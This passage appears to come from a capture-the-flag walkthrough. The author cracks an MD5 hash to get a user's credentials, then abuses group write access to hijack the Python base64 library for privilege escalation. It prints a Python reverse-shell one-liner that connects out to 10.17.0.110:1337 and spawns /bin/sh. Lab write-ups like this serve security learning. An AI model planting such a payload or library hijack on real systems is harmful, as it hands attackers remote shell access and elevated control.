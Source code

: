 and as you can see , we got some wired looking maybe MD5 hash (length=32=MD5) lets try to crack it online , we can use cassation !!

![](/assets/img/kryolite_security.042.jpeg)

and as , you can see , we got the some credential !!

![](/assets/img/kryolite_security.043.png)

since we got the credential for valley , lets login to that shell !!

![](/assets/img/kryolite_security.044.png)

and now we are in valley user , which basically belongs to valleyAdmin group !

![](/assets/img/kryolite_security.045.png)

now, since we are part of valleyAdmin group we can change the base64.py file , for python library hijacking

![](/assets/img/kryolite_security.047.jpeg)

lets open the file /usr/lib/python3.8/base64.py and add this payload of reverse-shell to file

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.0.110",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

![](/assets/img/kryolite_security.051.jpeg)
